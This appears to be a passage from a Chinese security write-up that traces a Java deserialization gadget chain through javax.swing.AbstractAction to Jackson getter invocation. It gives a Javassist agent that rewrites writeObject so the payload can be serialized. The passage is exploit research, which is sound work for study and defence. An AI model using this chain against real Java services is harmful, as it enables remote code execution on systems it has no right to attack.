 就可以得到Boogipop师傅找到的AbstractAction类了
![](https://img-blog.csdnimg.cn/5d4a3f56172b46ec87706df8cdc8d8b7.png)

简单看一下`javax.swing.AbstractAction`这个类，它是一个抽象类，ctrl+alt+b 可找到它的子类
![](https://img-blog.csdnimg.cn/be14e4c0988548b59fd6d89ab01c2168.png)

readObject会触发putValue方法，跟进
![](https://img-blog.csdnimg.cn/0378a7e710b64d5196e067b0ce59753d.png)

发现会调用firePropertyChange方法，继续跟进
![](https://img-blog.csdnimg.cn/4ed7ed570fac4daf85c6393bb6137931.png)

调用了oldValue的equals方法，并且参数为newValue，都是Object类，那么就可以用它触发Xstring的equals方法了

这里有一个问题就是 oldValue 为 `arrayTable.get(key)`，但是我们序列化的时候会执行 writeObject 方法，他会执行`ArrayTable.writeArrayTable(s, arrayTable);`导致我们写不进两个key相同value不同的ArrayTable
![](https://img-blog.csdnimg.cn/cb5480416ada4bc0b62b2a1e703d1eae.png)

可以通过Agent来重写这个writeObject方法，让它实现 ArrayTable 的 writeArrayTable 效果的同时将我们想写的东西写入
网上已经有师傅总结了这种方法：[对writeObject流程动点手脚 ](https://xz.aliyun.com/t/11720)
```java
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

public class AbstractAction_DefineTransformer implements ClassFileTransformer {
    public static final String ClassName = "javax.swing.AbstractAction";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/", ".");
        if (className.equals("javax.swing.AbstractAction")) {
            System.out.println("Find the Inject Class: javax.swing.AbstractAction");
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod ctMethod = c.getDeclaredMethod("writeObject");
                ctMethod.setBody("{" +
                        "$1.defaultWriteObject();" +
                        "java.lang.Object keys[] = arrayTable.getKeys(null);" +
                        "int validCount = keys.length;" +
                        "$1.writeInt(validCount);" +
                        " for (int i=0; i<validCount; i++) {\n" +
                        " if (keys != null) {\n" +
                        " $1.writeObject(\"test\");\n" +
                        " $1.writeObject(arrayTable.get(keys[i]));\n" +
                        " }\n" +
                        " }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                c.detach();
                return bytes;
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```
最后就是jackson反序列化触发任意getter了
注意运行前要添加VM选项`-javaagent:AbstractActionAgent.jar`